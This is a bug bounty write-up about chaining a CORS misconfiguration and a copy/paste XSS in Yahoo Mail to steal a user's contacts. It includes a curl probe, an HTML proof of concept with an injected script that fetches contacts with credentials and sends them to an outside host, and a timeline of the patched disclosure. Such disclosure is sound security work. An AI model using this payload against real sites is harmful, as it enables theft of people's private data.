 ```yaml
---
layout: post
title: "Chaining Bugs to Steal Yahoo Contacts!"
author: Corben Leo
---
```

### &#x1F468;&#x1F3FB;&#x200D;&#x1F4BB;&nbsp;Introduction & Background:
This is a write-up of how I chained two vulnerabilities (an XSS and a CORS misconfiguration) that allowed me to steal contacts from a victim's contact book. This data included: names, phone numbers, addresses, etc. 

#### <font color="#129AC8">&#x2717;</font> Cross-Origin-Resource Sharing
> Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use.

Browsers enforce the <a href="https://en.wikipedia.org/wiki/Same-origin_policy" rel="noopener noreferrer" target="_blank"><font id="highlighter">Same-Origin Policy</font></a>, meaning that data on a site is only accessible from the same domain and port, unless there is a CORS configuration. This allows data to be shared with other sites.

#### <font color="#129AC8">&#x2717;</font> Cross-Site Scripting:
XSS is a client-side code injection attack that allows an attacker to insert scripts (such as javascript) into a vulnerable application. If you don't know what it is, you should. 
<br><br>

### &#x1F4A3; The Bugs:
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #1: A CORS Misconfiguration in http://proddata.xobni.yahoo.com
I was browsing through various requests made to *.yahoo.com subdomains logged in the "<font id="highlighter2">Target</font>" tab of Burp Suite. I came across the subdomain proddata.xobni.yahoo.com and was intrigued by the name. There were only a few requests logged, but all to the same endpoint: `https://proddata.xobni.yahoo.com/v4/contacts`. This endpoint contains **every** contact you have in your Contact Book via a single `GET` request. I noticed the origin `https://mail.yahoo.com` was being reflected back in the `Access-Control-Allow-Origin` with `Access-Control-Allow-Credentials: true` header. I tried modifying the origin to many different payloads that I thought may work and be reflected, however none were reflected back. I then tried to send a different Yahoo! subdomain as the origin, rather than the `mail.yahoo.com` one. 
```
curl 'https://proddata.xobni.yahoo.com/v4/contacts' -s -H 'Origin: https://hackerone-cdl.yahoo.com' --head
```
Response:
```
Access-Control-Allow-Origin: https://hackerone-cdl.yahoo.com
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Credentials: true

```
It accepted any *.yahoo.com subdomain in the origin and reflected it back in the ACAO with `Allow-Credentials: true`. This meant if I could find an XSS on *.yahoo.com, I could leverage it to steal contacts.  
<br>
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #2: An XSS in Yahoo! Mail
A few days passed and I still hadn't found an XSS. Then I saw a tweet from Enguerran Gillier (<a href="https://twitter.com/opnsec" _target="blank" rel="noopener noreferrer">@opnsec</a>) regarding a wontfix Copy+Paste XSS he had found in Yahoo Mail. I quickly wget'd that POC from his server and edited it to fit my needs. (Turns out after reporting the chained bugs, the XSS <font id="highlighter">wasn't</font> marked as a wontfix and there was some miscommunication, so lucky me!). It required more user-interaction than I had wanted, but I didn't care, I just wanted to chain them and report them as soon as possible. 

### &#x1F4B0; The Grand Finale
This was my proof-of-concept, that required a logged in user to copy any text from this page and paste it into Yahoo Mail. 
```html
<!doctype html>
  <head>
    <title>Yahoo CORS Misconfiguration</title>
  </head>
  <body>
    <h1>Yahoo CORS Misconfiguration</h1>
    <p>Stealing Contact information via CORS Misconfiguration + Yahoo Mail XSS via Copy/Paste</p>
    <h3>Prerequisites :</h3>
    - Tested on Windows 10 with Firefox 56, Chrome 62, Edge<br/>
    <h3>Instructions :</h3>
    1. Select any text in this page and copy it using ctrl-C or right click -> copy <br/>
    <span>Copy status : </span><span id="copied">not copied yet</span> <br/>
    2. Go to Yahoo Mail, compose a new email and paste inside the email body<br/>
    3. All of your contact's information will be sent to my server on port 61315  
  <script>
  document.addEventListener('copy', function(e){
  	e.clipboardData.setData('text/plain', '');
  	e.clipboardData.setData('text/html','<div id="enhancr2_a" class="yahoo-link-enhancr-card">xxx</div><img src="x" onerror="document.write(\'&lt;script&gt;var xhttp=new XMLHttpRequest();xhttp.onreadystatechange = function() {if (this.readyState == 4 && this.status == 200) {document.location=&#x22;http://example.com:61315&#x22;+escape(this.responseText);}};xhttp.open(&#x22;GET&#x22;,&#x22;https://proddata.xobni.yahoo.com/v4/contacts&#x22;,true);xhttp.withCredentials = true;xhttp.send();&lt;/script&gt;\');">');
  	e.preventDefault();
  	document.getElementById("copied").textContent = "SUCCESSFULLY COPIED"
  });
  </script>
```
<br>
Proof-of-Concept Video:<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/lK23tBEVKxU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (11/8/2017) Reported to Yahoo! via HackerOne
- (11/9/2017) Confirmed & awarded $150 on Triage
- (11/15/2017) Vulnerability Patched
- (12/10/2017) Awarded a $1,850 bounty (making the entire bounty $2,000)
<br><br>This was a fun report for me and I hoped you enjoyed it as well!<br>Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>
